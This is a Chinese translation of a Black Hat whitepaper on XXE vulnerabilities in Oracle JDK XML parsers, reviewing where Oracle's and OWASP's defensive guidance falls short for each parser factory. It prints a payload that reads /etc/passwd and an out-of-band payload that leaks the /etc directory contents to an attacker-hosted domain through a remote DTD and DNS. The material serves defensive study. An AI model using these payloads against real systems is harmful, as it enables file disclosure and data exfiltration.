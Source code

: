 > 原文链接: https://www.anquanke.com//post/id/231472 


# JDK XML解析器中的XXE防御


                                阅读量   
                                **89834**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者Sergey Gorbaty，文章来源：blackhat.com
                                <br>原文地址：[https://www.blackhat.com/docs/us-15/materials/us-15-Wang-FileCry-The-New-Age-Of-XXE-java-wp.pdf﻿](https://www.blackhat.com/docs/us-15/materials/us-15-Wang-FileCry-The-New-Age-Of-XXE-java-wp.pdf%EF%BB%BF)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p5.ssl.qhimg.com/t01a5c53083f5b80311.png)](https://p5.ssl.qhimg.com/t01a5c53083f5b80311.png)



## 摘要

本文将证明许多Oracle JDK XML解析器容易受到Xml eXternal Entity（XXE）攻击。 我们还将证明现有的针对XXE攻击的Java防御措施的不足之处，并且其还无法防范恶意错误格式的XML，这会导致解析错误，并且成功加载外部实体。 我们能够达到读取文件和目录遍历的目的。我们提供了一个POC，通过不受信任的XML文件，从运行JDK 7的远程服务器中将文件名转发到到`/tmp`目录下。我们希望提高业界对XXE攻击危险性的认识。



## 1. 介绍

在本文中，我们将对使用XML外部实体的标准攻击进行概述。在下面的小节中，我们将介绍基于JDK7的XML解析器的特定畸形XML攻击场景的效果。在后面的小节中，我们将介绍权威人士推荐的防御措施，并展示它们的不足之处。

### <a class="reference-link" name="1.1%20%E8%83%8C%E6%99%AF"></a>1.1 背景

XML DTD可以由内部实体、外部实体和参数实体构建。

外部实体是对其他实体的引用，可以在当前文档之外找到。当XML解析器遇到外部实体URI时，它会扩展引用，以包含当前文档中外部链接的内容。外部实体可以引用一个文件或一个URL。

`简单的XXE payload`

```
&lt;?xml version="1.0" encoding="utf-8"?&gt;
    &lt;!DOCTYPE test [
        &lt;!ENTITY xxe SYSTEM "file:///etc/passwd"&gt;
    ]&gt;
&lt;test&gt;&amp;xxe;&lt;/test&gt;
```

### <a class="reference-link" name="1.2%20%E6%94%BB%E5%87%BB%E4%BB%8B%E7%BB%8D"></a>1.2 攻击介绍

正如上一节中所提到的，XML解析器抛出的异常可能发生在解析的不同阶段。JDK XML实体展开器总是假设外部实体URL是良好形成的，并将尝试解析它。我们的第一个目标是确认外部实体正在被解析；因此，我们在一个实体中包含一个外部 URL。我们的第二个目标是创建一个指向无效 URL 的实体，该实体包含了由另一个外部实体扩展所产生的数据。这样的实体结构会迫使XML解析器先解析一些敏感的外部实体，然后使用特制的URL泄露解析后的数据，最后抛出一个IOException。这种情况下的IOException最常见的是影子，只有在尝试解析实体URL后才会抛出，此时攻击者已经通过攻击者控制的DNS解析器接收了数据。

`带有实体交叉引用的XXE`：

```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
    &lt;!DOCTYPE foo [
        &lt;!ENTITY % payload SYSTEM "file:///etc"&gt;
        &lt;!ENTITY % dtd SYSTEM "http://externallyhostedentity.com/a.dtd&gt;
        %dtd;
        %release;
    ]&gt;
&lt;foo&gt;business as usual&lt;/foo&gt;
```

`远程服务器的a.dtd`：

```
&lt;!ENTITY % nested "&lt;!ENTITY % release SYSTEM ’jar:%payload;.externallyhostedentity.com!/’&gt;"&gt;%nested;
```

有单独的a.dtd的主要原因是扩展引用不能在同一文档中引用。

上面的payload展示了攻击者如何通过监控DNS解析器或http://externallyhostedentity.com HTTP日志来了解解析器是否易受XXE攻击。此外，XML解析器可能会将`/etc`目录内容泄漏给由攻击者控制的http://externallyhostedentity.com的A记录的权威DNS解析器。



## 2. 不足的建议

Oracle JDK7文档中包含了大量关于XML解析器配置的信息。开发者首先想到的一个选项是启用`FEATURE_SECURE_PROCESSING`，以防止外部连接。

> “当`FEATURE_SECURE_PROCESSING`被启用时，建议实现者默认限制外部连接”

可惜，尽管Oracle提出了建议，但当`FEATURE_SECURE_PROCESSING`被启用时，XML解析器实际上并没有限制外部连接。在处理XXE时，Oracle没有明确的建议，但对于某些解析器，它记录了如何关闭XML外部实体的扩展，而其他解析器则没有办法关闭它。OWASP的建议只覆盖了主要的JDK解析器，并通过在大多数解析器上完全禁止获取外部DTD来应对XXE威胁。Long等人都建议为XMLReader创建一个自定义的实体解析器，但没有涵盖其他任何实体。

在下面的章节中，我们将检查每个主要的JDK XML解析器提供商，并看看它为缓解XXE提供了哪些功能。

### <a class="reference-link" name="2.1%20javax.xml.stream.XMLInputFactory"></a>2.1 javax.xml.stream.XMLInputFactory

使用这个Oracle XML factory上的`setProperty`方法，开发者可以将`javax.xml.stream.isSupportingExternalEntities`属性设置为false。不幸的是，正如我们发现的那样，设置这个属性不能正常工作，导致了一个0day漏洞，这个漏洞在`JDK 7u67`中得到了解决。

OWASP对该解析器的建议是忽略对`XML DTD`的需求，建议完全禁用外部DTD，这当然可以解决问题，但可能不符合业务需求。

### <a class="reference-link" name="2.2%20javax.xml.parsers.DocumentBuilderFactory"></a>2.2 javax.xml.parsers.DocumentBuilderFactory

OWASP建议禁用DTD，但同时也提到，如果不能完全屏蔽DTD，就应该直接禁用下面的`属性`：

[http://xml.org/sax/features/external-general-entities](http://xml.org/sax/features/external-general-entities)

[http://xml.org/sax/features/external-parameter-entities](http://xml.org/sax/features/external-parameter-entities)

遗憾的是，文档中并没有明确告诉需要禁用上述两个属性。单独禁用[http://xml.org/sax/features/external-general-entities](http://xml.org/sax/features/external-general-entities) 对前面提到的攻击没有作用。

Morgan等人和OWASP的建议都显得非常相似。

Oracle文档中的`setAttribute`方法可以用来设置`XMLConstants.ACCESS_EXTERNAL_DTD`和`XMLConstants.ACCESS_EXTERNAL_SCHEMA`属性，这将允许开发人员限制可以用来获取DTD或模式的协议。开发者应该意识到，`jar://`协议是相当危险的，应该被排除在外，因为它可以解析文件和外部托管的网站。

### <a class="reference-link" name="2.3%20javax.xml.parsers.SAXParserFactory"></a>2.3 javax.xml.parsers.SAXParserFactory

这个factory的Oracle文档中不包括任何可以帮助我们禁用外部实体处理的功能。OWASP包括从禁用DTD到仅禁用外部实体的建议。OWASP列出的防御措施与2.2中概述的防御措施类似。

### <a class="reference-link" name="2.4%20javax.xml.transform.sax.SAXTransformerFactory%E5%92%8Cjavax.xml.transform.TransformerFactory"></a>2.4 javax.xml.transform.sax.SAXTransformerFactory和javax.xml.transform.TransformerFactory

Oracle中提供了如何禁用可用于获取外部DTD和外部实体的协议的信息。遗憾的是，如果不使用`XMLConstants.ACCESS_EXTERNAL_DTD`属性禁用DTD，就无法关闭外部实体。

### <a class="reference-link" name="2.5%20javax.xml.validation.SchemaFactory%E5%92%8Cjavax.xml.validation.Validator"></a>2.5 javax.xml.validation.SchemaFactory和javax.xml.validation.Validator

这些特殊的解析器允许开发者使用`setResourceResolver`方法提供一个自定义的外部资源解析器。不幸的是，默认的参数值为`null`并不能带来安全的行为，本质上是一个无操作。开发者必须提供一个合适的解析器，否则攻击就会成功。

另一种安全的方法是利用`setProperty`方法，以`XMLConstants.ACCESS_EXTERNAL_DTD`作为第一个参数，以白名单协议作为第二个参数来减轻攻击。

### <a class="reference-link" name="2.6%20javax.xml.bind.Unmarshaller%E5%92%8Cjavax.xml.xpath.XPathExpression"></a>2.6 javax.xml.bind.Unmarshaller和javax.xml.xpath.XPathExpression

正如Oracle文档所提示的那样，在解析外部实体方面，没有办法修改`Unmarshaller`的行为。

> 目前在Unmarshaller上没有任何属性需要被所有JAXB Providers支持”。

`XPathExpression`根本没有暴露任何设置属性的公共方法。

让这两个解析器安全可用的唯一选择是先使用不同的安全解析器解析XML，然后将结果传递进来。例如，对于`Unmarshaller`，开发者需要制作一个安全的`java.xml.transform.Source`，并将其传递给`unmarshal`方法。而对于`XPathExpression`，则需要将一个安全解析过的`org.xml.sax.InputSource`传给`evaluate(...)`方法。



## 3. 结论

在防止XXE攻击方面，每个JDK解析器都有特定的配置。重要的是要配置`处理不正确输入`的解析器，以及处理正确但明知会产生错误的解析器。
